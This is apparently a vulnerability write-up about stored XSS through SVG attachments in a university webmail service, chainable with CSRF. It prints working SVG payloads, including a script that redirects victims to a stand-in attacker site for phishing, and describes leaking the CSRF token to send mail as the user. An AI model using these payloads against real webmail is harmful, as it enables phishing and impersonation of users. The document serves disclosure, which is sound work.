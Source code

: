 ## Introduction

I decided to write  a technical write-up about a bug inside the WebMail of "Università degli studi di Milano ".
In this post I will share technical details on the xss vulnerability inside a svg file that could be chained with a csrf. 

## Xss inside svg

First of all I tried to see if there was any input not sanitized properly to try some xss but nothing, so I tried to see how webmail handled svg files with some js inside, sending svg file from my personal email to my university emails and I managed to find something good.


![unimia2](https://user-images.githubusercontent.com/59454895/113420406-90ae8c80-93c9-11eb-9aaf-f9a88da90b17.PNG)
Now I knew the webmail service could handle svg files , once opened the browser parse the malicious code and we can get  the xss :

![Unimia3](https://user-images.githubusercontent.com/59454895/113420875-64474000-93ca-11eb-862a-23930a055a1c.PNG)

It works becase SVG is not a graphical format, but an XML document describing the elements that make up graphics and its additional interactions with the environment. SVG files can be an interactive document, such as HTML and can change depending on pre-programmed actions.
Just like in HTML we have a DOM tree  which is available from JS scripts. Due to the fact that HTML, JavaScript and SVG work in the same ecosystem it's easy to create an SVG file that performs malicious actions in the area of the tested web application.
Also we can see from the response header that the SVG file was interpreted as svg+xml ( there was no httponly flag).

![Unimia4](https://user-images.githubusercontent.com/59454895/113421637-be94d080-93cb-11eb-998e-4eb4d1bfd566.PNG)


The file had the following code :

```xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
    <foreignObject class="node" x="46" y="22" width="200" height="300">
		  <body xmlns="http://www.w3.org/1999/xhtml">
			 <style>
				 h1{color: red}
			  </style>
			  <h1>Open me :)</h1>
	    </body>
   </foreignObject>
  <script type="text/javascript">
	  alert('1');
  </script>
</svg>
```
## Attack scenario
It's possible to trick the user into a pishing page since we can make a redirection where we want with some js  , after the the file has been opened  . It can be done with the following code inside the svg file( or we can trick him to put his credentials.)


```xml
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
             window.location.href="https://www.evilsite.com/";

   </script>
</svg>
```
The worst thing is that the token can be leaked into the attacker's server and is no longer sufficient against csrf attacks. With csrf we can for example send an email to a recipient chosen by us (such as a professor) containing an inappropriate text, without the original user noticing it.

![Unimia4](https://user-images.githubusercontent.com/59454895/113429277-8c3da000-93d8-11eb-9fe2-b8d2018a282c.PNG)

I won't publish the final poc in order to avoid problems :P , but it's very easy to leak the token and execute a good CSRF where an attacker could send an email without the authorization of the owner.
